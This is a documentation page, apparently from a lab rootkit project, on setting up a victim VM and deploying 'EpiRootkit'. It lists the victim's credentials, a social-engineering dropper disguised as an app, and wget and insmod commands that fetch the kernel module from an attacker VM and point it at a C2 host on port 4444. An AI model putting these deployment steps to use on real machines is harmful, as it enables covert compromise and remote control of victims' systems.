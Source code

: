 ```yaml
---
title: "Victim VM Setup"
description: "Configure the victim VM and deploy the EpiRootkit"
icon: "shield"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 204
---
```




## Prerequisites

1. **Host setup**: [Host Environment Setup]({{< relref "environment.md" >}})
2. **VM disk**: `victim.qcow2` in `/var/lib/libvirt/images/`
3. **VM launched**: `sudo ./scripts/run_vms.sh`


## VM Access

- **IP**: 192.168.200.10 (static)
- **Credentials**: `victim` / `jules`
- **Target**: Ubuntu 20.04 LTS (kernel 5.4.0)

## Deploy Rootkit

Choose your deployment method:

{{< tabs tabTotal="2" >}}

{{% tab tabName="Dropper (Social Engineering)" %}}

### Automated Deployment

Use the social engineering dropper for realistic attack simulation:

1. **Access Landing Page**: `http://192.168.200.11:8080`
2. **Download NeoGeoLoc**: Click download on the landing page
3. **Run Application**: Execute the downloaded dropper
4. **Click Register**: Application automatically downloads and installs rootkit

**Details**: See [Dropper Deployment]({{< relref "dropper-deployment.md" >}}) for complete process and interface screenshots.

{{% /tab %}}

{{% tab tabName="Manual Deployment" %}}

### Direct Installation

For testing or development purposes:

1. **Get Payload**: Download rootkit files directly from attacker VM
2. **Transfer**: Copy `epirootkit.ko` to victim VM
3. **Install**: Load kernel module manually

```bash
# On victim VM
wget http://192.168.200.11:3000/download/epirootkit.ko
sudo insmod epirootkit.ko address=192.168.200.11 port=4444 #(default values)
```

{{% /tab %}}

{{< /tabs >}}



## Next Steps

1. **Control**: Use [C2 Server](../../03-attacking-program/overview.md) or [Web UI](../../04-web-ui/overview.md)
2. **Features**: Explore [Rootkit Features](../../05-epirootkit/features/)

